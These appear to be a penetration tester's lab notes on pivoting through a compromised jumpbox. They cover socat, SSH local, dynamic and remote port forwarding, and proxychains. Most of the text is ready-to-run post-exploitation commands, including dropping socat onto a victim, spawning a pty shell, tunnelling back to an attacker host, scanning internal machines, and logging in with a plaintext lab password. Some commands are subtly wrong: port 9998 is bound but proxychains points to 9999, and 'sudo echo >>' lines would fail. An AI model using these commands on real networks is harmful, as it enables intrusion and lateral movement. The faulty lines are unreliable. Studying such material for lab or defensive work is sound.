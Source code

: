 Port Forwarding = Forwarding all traffic sent to that port to another destination (i.e. another port on another machine that isn't reachable from the attacker machine).

# Using Socat
Note: Simple port forwards like these are easy to detect with network monitoring tools. 

Socat usually isn't installed on victim machines but it's possible to download and run a statically linked binary version instead.

Socat binaries: https://github.com/3ndG4me/socat/releases

Once socat is installed on the victim machine (i.e. the jumpbox between the target and attacker):
```bash
socat -ddd TCP-LISTEN:$(LPORT_OF_JUMPBOX),fork TCP:$(IP_OF_TARGET):$(RPORT_OF_TARGET)
```
## Example
There are 3 machines.
* Attacker machine can reach "jumpbox" but not "postgresql".
* Jumpbox machine that has been compromised by attacker. Can reach attacker AND postgresql. IP=192.168.50.63.
* Postgresql machine. Port 5432 is open but only accesible to Jumpbox. IP=10.4.50.215.

Attacking machine wants to access port 5432 on a postgresql server, but that server is only reachable through the jumpbox machine in between them, thus a port forward can be set up on the jumpbox for all traffic going through (for example) port 2345 to forward to port 5432 of the postgresql server:
```bash
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432
```
Now the attacker machine can access postgresql through the jumpbox machine on port 2345:
```bash
psql -h 192.168.50.63 -p 2345 -U postgres
```
# SSH Tunelling/Port Forwarding
Most SSH tunnelling requires a tty shell, if it's not - then do this:
```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
```
To connect back to the Kali SSH server using a username and password you may have to explicity allow password-based authentication by setting PasswordAuthentication to yes in /etc/ssh/sshd_config.
## Local Port Forwarding
Forwards one port to another port of another machine.
```bash
ssh -N -L 0.0.0.0:$(LPORT_OF_LISTENER):$(IP_OF_TARGET):$(RPORT_OF_TARGET) $(SSH_USER)@$(IP_OF_JUMPBOX)
```
### Example
There are 4 machines.
* Attacker machine can reach "confluence" machine.
* Confluence machine can reach "database" machine and attacker machine. IP=192.168.50.63
* Database machine can reach "SMB" machine and confluence machine. IP=10.4.50.215
* SMB machine can reach database machine. IP=172.16.50.217

Run this on the confluence machine to make smb machine port 445 reachable via 4455:
```bash
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215
```
Attacker machine can now access smb machine through confluence machine on port 4455:
```bash
smbclient -p 4455 -L //192.168.50.63/ -U hr_admin --password=Welcome1234
```
## Dynamic Local Port Forwarding
Forwards traffic received on one port to access everything visible on another machine.

Run on the jumpbox:
```bash
ssh -N -D 0.0.0.0:9999 $(SSH_USER)@$(IP_OF_TARGET)
```
### Proxychains
To be able to use any tool through this open port forward, proxychains will need to be configured.
```bash
sudo echo "socks5 $(JUMPBOX_IP) 9999" >> /etc/proxychains4.conf
```
Lowering the tcp_read_time_out and tcp_connect_time_out values in the Proxychains configuration file will force Proxychains to time-out on non-responsive connections more quickly. This can dramatically speed up port-scanning times.
### Example
There are 4 machines.
* Attacker machine can reach "confluence" machine.
* Confluence machine can reach "database" machine and attacker machine. IP=192.168.50.63
* Database machine can reach "SMB" machine and confluence machine. IP=10.4.50.215
* SMB machine can reach database machine. IP=172.16.50.217

Run this on the confluence machine to make all machines "database" can see reachable via 9999:
```bash
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
```
Edit the proxychains config on attacker machine:
```bash
sudo echo "socks5 192.168.50.63 9999" >> /etc/proxychains4.conf
```
Run commands to access different ports on the smb machine from attacker machine:
```bash
sudo proxychains4 nmap -vvv -sT --top-ports=20 -Pn 172.16.50.217
```
## Remote Port Forwarding
SSH remote port forwarding can be used to connect back to an attacker-controlled SSH server and bind the listening port there. Think of it like a reverse shell, but for port forwarding.
On attacker machine:
```bash
sudo systemctl start ssh
```
On jumpbox machine:
```bash
ssh -N -R 127.0.0.1:2345:$(TARGET_IP):$(TARGET_PORT) kali@$(ATTACKER_IP)
```
### Example
There are 4 machines.
* Attacker machine can reach "confluence" machine. IP=192.168.118.4
* Confluence machine can reach "database" machine and attacker machine. IP=192.168.50.63
* Database machine can reach "SMB" machine and confluence machine. IP=10.4.50.215
* SMB machine can reach database machine. IP=172.16.50.217

Run this on confluence to make port 5432 reachable via localhost port 2345:
```bash
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```
On the attacker machine:
```bash
psql -h 127.0.0.1 -p 2345 -U postgres
```
## Dynamic Remote Port Forwarding
Note: Only works on OpenSSH Client v7.6+. So the remote machines SSH version matters.

Remote dynamic port forwarding creates a dynamic port forward in the remote configuration. The SOCKS proxy port is bound to the SSH server, and traffic is forwarded from the SSH client.

Run on jumpbox:
```bash
ssh -N -R 9998 kali@$(ATTACKER_IP)
```
### Proxychains
To be able to use any tool through this open port forward, proxychains will need to be configured.
```bash
sudo echo "socks5 127.0.0.1 9999" >> /etc/proxychains4.conf
```
Lowering the tcp_read_time_out and tcp_connect_time_out values in the Proxychains configuration file will force Proxychains to time-out on non-responsive connections more quickly. This can dramatically speed up port-scanning times.
